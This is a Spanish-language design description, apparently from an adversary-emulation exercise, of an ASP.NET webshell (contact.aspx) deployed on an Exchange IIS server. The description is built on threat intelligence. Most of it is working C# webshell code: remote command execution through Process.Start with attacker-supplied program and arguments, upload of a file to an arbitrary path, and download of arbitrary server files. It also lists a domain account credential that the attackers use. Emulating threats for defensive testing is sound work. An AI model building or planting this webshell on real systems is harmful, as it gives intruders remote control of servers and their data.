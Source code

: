 **Arquitectura Original (CTI):**
1. **Etapa 1 (loader):** Webshell mínimo que carga la segunda etapa desde archivo o URL
2. **Etapa 2 (funcional):** Webshell completo con todas las capacidades

**Arquitectura de Emulación (simplificada):**
- Un único archivo contact.aspx con todas las capacidades
- Funciones de upload, download y ejecución de comandos integradas

**Lenguaje y Tecnología:**
- ASP.NET (C# en código behind)
- Compilado dinámicamente por IIS al primer acceso
- Ejecuta en el contexto del Application Pool de Exchange

**Características Principales:**

1. **Autenticación NTLM Integrada**
   - Requiere credenciales válidas de dominio para acceder
   - Utiliza autenticación de Windows IIS
   - No hay backdoor password hardcodeado
   - Los atacantes usan credenciales de Gosta: `BOOMBOX\gosta:d0ntGoCH4$ingW8trfalls`

2. **Ejecución de Comandos (cmd)**
   ```csharp
   // Parseo de parámetros
   string program = Request.Form["pro"];  // ej: cmd.exe
   string command = Request.Form["cmd"];  // ej: whoami

   // Ejecución
   Process.Start(new ProcessStartInfo {
       FileName = program,
       Arguments = "/c " + command,
       RedirectStandardOutput = true,
       UseShellExecute = false
   });
   ```

3. **Upload de Archivos al Servidor (Arbitrary Folder Upload)**
   ```csharp
   // Parámetros
   string uploadIndicator = Request.Form["upl"];     // "f1"
   string savePath = Request.Form["sav"];             // ej: C:\Windows\Temp\
   string newName = Request.Form["nen"];              // ej: m64.exe
   HttpPostedFile file = Request.Files["f1"];         // archivo subido

   // Guardado
   file.SaveAs(Path.Combine(savePath, newName));
   ```

4. **Download de Archivos desde el Servidor (File Download)**
   ```csharp
   // Parámetro
   string downloadPath = Request.Form["don"];  // ej: C:\Windows\Temp\01.txt

   // Descarga
   Response.TransmitFile(downloadPath);
   Response.ContentType = "application/octet-stream";
   ```
